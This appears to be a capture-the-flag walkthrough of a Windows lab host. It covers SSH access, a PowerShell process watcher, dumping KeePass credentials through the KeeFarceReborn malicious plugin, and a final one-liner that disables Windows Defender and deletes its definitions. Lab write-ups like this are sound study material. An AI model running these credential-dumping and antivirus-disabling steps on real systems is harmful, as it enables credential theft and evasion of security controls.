 Now we should be able to login as that user using `ssh`.

```
Microsoft Windows [Version 10.0.20348.2159]
(c) Microsoft Corporation. All rights reserved.

kaiju\sasrv200@BERSRV200 C:\Users\sasrv200>tree /f /a
Folder PATH listing
Volume serial number is AC3F-A083
C:.
+---.ssh
|       authorized_keys
|
+---Desktop
|       flag.txt
```

After some further enumeration over the account we can notice that there is a process called `KeePass` that pops out every now and then.

I created this little script to watch for changes

```powershell
while ($true) {
    Clear-Host
    $processes = Get-Process | Sort-Object CPU -Descending | Select-Object -Property ID, ProcessName, CPU
    $currentTime = Get-Date
    Write-Host "Process Watcher - Current Time: $currentTime"
    $processes 
    Start-Sleep -Seconds 5
}
```

After that, we can see that in the `E:\` drive under the `KeePass` folder there are `Plugins` folder which is empty. This hints for this malicious plugin:

- https://github.com/d3lb3/KeeFarceReborn

When you put your malicious plugin under the `Plugins` folder you should expect a dump of the database in `C:\temp` there will be a `*.xml` file. Eventually you will find the administrator's password there `N......Mel..`.

Then we can login with SSH.

```
Microsoft Windows [Version 10.0.20348.2159]
(c) Microsoft Corporation. All rights reserved.

administrator@BERSRV200 C:\Users\Administrator>
```

Let's disable the AV and the Firewall

```
cmd.exe /c "powershell Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true -DisableScriptScanning $true -EnableControlledFolderAccess Disabled -EnableNetworkProtection AuditMode -Force -MAPSReporting Disabled -SubmitSamplesConsent NeverSend && powershell Set-MpPreference -SubmitSamplesConsent 2 & "%ProgramFiles%\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All"
```
